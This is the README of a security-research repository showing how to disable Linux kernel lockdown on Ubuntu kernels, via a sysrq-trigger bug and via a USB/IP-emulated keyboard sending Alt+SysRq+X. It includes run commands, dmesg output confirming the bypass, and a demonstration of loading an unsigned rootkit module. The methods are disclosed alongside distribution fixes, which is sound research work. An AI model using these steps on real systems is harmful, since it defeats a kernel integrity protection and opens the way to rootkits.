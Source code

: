 unlockdown
==========

This repo demonstrates some ways to disable or bypass kernel lockdown on Ubuntu kernels without physical access to the machine, essentially bypassing this security feature.

## Story

Once upon a time, while working on some [USB fuzzing](https://github.com/google/syzkaller/blob/master/docs/linux/external_fuzzing_usb.md) related stuff, I was about to trace the kernel via `kprobe` on my new laptop, but instead...

```
perf-tools/bin# ./kprobe 'r:usb usb_control_msg rv=$retval'
Tracing kprobe usb. Ctrl-C to end.
./kprobe: line 228: echo: write error: Operation not permitted
ERROR: adding kprobe "r:usb usb_control_msg $retval".
Last 2 dmesg entries (might contain reason):
...
    [  235.815912] Lockdown: kprobe: Use of kprobes is restricted; see man kernel_lockdown.7
Exiting.
```

Lockdown, eh?

## What is lockdown?

Linux kernel lockdown is a security feature that aims at restricting root's ability to modify the kernel at runtime.
See more details in ["Kernel lockdown in 4.17?"](https://lwn.net/Articles/750730/) by Jonathan Corbet and ["Linux kernel lockdown and UEFI Secure Boot"](https://mjg59.dreamwidth.org/50577.html) by Matthew Garrett.
After 2 years of being in review, the lockdown patchset has been [merged](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=aefcf2f4b58155d27340ba5f9ddbe9513da8286d) into the upstream kernel in version 5.4.
Ubuntu has applied [a version of this patchset](https://git.launchpad.net/~ubuntu-kernel/ubuntu/+source/linux/+git/bionic/commit/?id=49b04f8acc7788778a360e7462353a86eaffca53) to their kernels in 2018.

Lockdown is enabled by default on my ThinkPad X1 Carbon laptop with Ubuntu Bionic:

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
# dmesg
...
[    0.000000] secureboot: Secure boot enabled
[    0.000000] Kernel is locked down from EFI secure boot; see man kernel_lockdown.7
...
```

## Disabling lockdown

The early versions of the lockdown patchset integrated kernel lockdown with UEFI secure boot and had a way to disable lockdown at runtime by sending an Alt+SysRq+X key sequence on an attached physical keyboard. Later those patches [were](https://lore.kernel.org/linux-security-module/20190306235913.6631-1-matthewgarrett@google.com/) [dropped](https://lore.kernel.org/linux-security-module/CACdnJuuxAM06TcnczOA6NwxhnmQUeqqm3Ma8btukZpuCS+dOqg@mail.gmail.com/) from the upstream patchset, but not from the distro backports.

While some ways to trigger Alt+SysRq+X from software (e.g. via `/dev/uinput`) were accounted for and disabled, a few still remain.
Here I'll show some methods to disable lockdown by injecting an Alt+SysRq+X key sequence without having physical access to the machine.

### Method 0: sysrq-trigger

The lockdown patchset included a patch that disallowed disabling lockdown by triggering a SysRq via `/proc/sysrq-trigger`.
Unfortunately, the early versions of this patch contained a [bug](https://lore.kernel.org/lkml/15833.1551974371@warthog.procyon.org.uk/) and the restriction hadn't actually been enforced. On Ubuntu the bug has been [introduced](https://git.launchpad.net/~ubuntu-kernel/ubuntu/+source/linux/+git/bionic/commit/?id=531c25a35b2a93e025e72e04f16b0f3620ace581) with the first backport of the lockdown patches (since release in April 2018 for Bionic), and [fixed](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1851380) in December 2019.

Disabling lockdown with this method is trivial as shown [here](00-sysrq-trigger/run.sh).

Vulnerable:

```
# uname -a
Linux x1 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux


# cd 00-sysrq-trigger/
# ./run.sh 
...
Done! Check dmesg.

# dmesg
...
[  315.760278] sysrq: SysRq : 
[  315.760282] This sysrq operation is disabled from userspace.
[  315.760292] Disabling Secure Boot restrictions
[  315.760296] Lifting lockdown
```

Fixed:

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# cd 00-sysrq-trigger/
# ./run.sh 
...
Done! Check dmesg.

# dmesg
...
[  208.412031] sysrq: SysRq : 
[  208.412032] This sysrq operation is disabled from userspace.
```

(The fix actually went into `4.15.0-72-generic`.)

### Method 1: USB/IP

Another way to turn off lockdown is to emulate a USB keyboard via [USB/IP](http://usbip.sourceforge.net/) (as long as it's enabled in the kernel) and send an Alt+SysRq+X key combination through it.
This has actually been previously pointed out by Jann Horn [here](https://lore.kernel.org/patchwork/patch/898080/#1090220).

Ubuntu's kernels have USB/IP enabled (`CONFIG_USBIP_VHCI_HCD=m` and `CONFIG_USBIP_CORE=m`) with signed `usbip_core` and `vhci_hcd` modules provided in the `linux-extra-modules-*` package.

(Jann has also mentioned the Dummy HCD/UDC module, which can indeed by used together with e.g. GadgetFS to do the same trick, but `CONFIG_USB_DUMMY_HCD` is not enabled in Ubuntu kernels.)

[Here](https://github.com/xairy/unlockdown/blob/master/01-usbip/keyboard.c) you can find the code that emulates a keyboard over USB/IP and sends an Alt+SysRq+X key combination. [This script](https://github.com/xairy/unlockdown/blob/master/01-usbip/run.sh) shows how to run it.
It's possible to simplify the implementation of this method by directly interacting with the VHCI driver to emulate a USB device, but I didn't bother with this.

(Updated 18.02.2019.)  This method and has been fixed in [Ubuntu](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1861238), [Fedora](https://bugzilla.redhat.com/show_bug.cgi?id=1800859) and [Debian](https://salsa.debian.org/kernel-team/linux/commit/2204f19825db3d7cc3cbce9e37b53720437a3e7e) kernels by dropping the "Add a SysRq option to lift kernel lockdown" patch.

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# cd 01-usbip/
# ./run.sh 
...
+ modprobe vhci_hcd
+ modprobe usbip_core
+ echo 1
+ gcc keyboard.c -o keyboard
+ usbip attach -r 127.0.0.1 -b 1-1
+ ./keyboard
waiting for connection...
connection from 127.0.0.1
OP_REQ_IMPORT
+ sleep 3
USBIP_CMD_SUBMIT
control request
bRequestType: 0x80 (IN), bRequest: 0x6, wValue: 0x100, wIndex: 0x0, wLength: 64
USBIP_CMD_SUBMIT
control request
bRequestType: 0x80 (IN), bRequest: 0x6, wValue: 0x100, wIndex: 0x0, wLength: 18
...
+ echo 'Done! Check dmesg.'
Done! Check dmesg.

# dmesg
[  422.346185] vhci_hcd vhci_hcd.0: USB/IP Virtual Host Controller
[  422.346190] vhci_hcd vhci_hcd.0: new USB bus registered, assigned bus number 5
...
[  423.233918] input: x as /devices/platform/vhci_hcd.0/usb5/5-1/5-1:1.0/0003:046D:C312.0002/input/input19
[  423.293702] hid-generic 0003:046D:C312.0002: input,hidraw1: USB HID v1.10 Keyboard [x] on usb-vhci_hcd.0-1/input0
[  423.429609] sysrq: SysRq : Disabling Secure Boot restrictions
[  423.429612] Lifting lockdown
```

### Method 2: TBD

TBD.

## So what?

What happens now that lockdown has been disabled?

At the very least I can now use `kprobe` on my laptop.
(No need to waste time remembering that [tricky key combination sequence](https://superuser.com/questions/562348/altsysrq-on-a-laptop) every time.)

```
perf-tools/bin# ./kprobe 'r:usb usb_control_msg rv=$retval'
Tracing kprobe usb. Ctrl-C to end.
     kworker/3:2-984   [003] d...   334.012577: usb: (hub_ext_port_status+0x8b/0x130 <- usb_control_msg) rv=0x4
     kworker/3:2-984   [003] d...   334.012590: usb: (usb_clear_port_feature+0x35/0x40 <- usb_control_msg) rv=0x0
     kworker/3:2-984   [003] d...   334.012595: usb: (hub_ext_port_status+0x8b/0x130 <- usb_control_msg) rv=0x4
```

And of course it's now also possible to do other fun stuff like loading unsigned kernel modules.

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# cd rootkit
# make
...

# insmod rootkit.ko
insmod: ERROR: could not insert module rootkit.ko: Required key not available

# cd ../01-usbip
# ./run.sh
...
Done! Check dmesg.
# dmesg | grep 'Lifting lockdown'
[  146.480046] Lifting lockdown

# cd ../rootkit
# insmod rootkit.ko
# dmesg | grep rootkit
[  175.953572] rootkit: loading out-of-tree module taints kernel.
[  175.953574] rootkit: module license 'unspecified' taints kernel.
[  175.953621] rootkit: module verification failed: signature and/or required key missing - tainting kernel
[  175.953975] rootkit successfully loaded
```
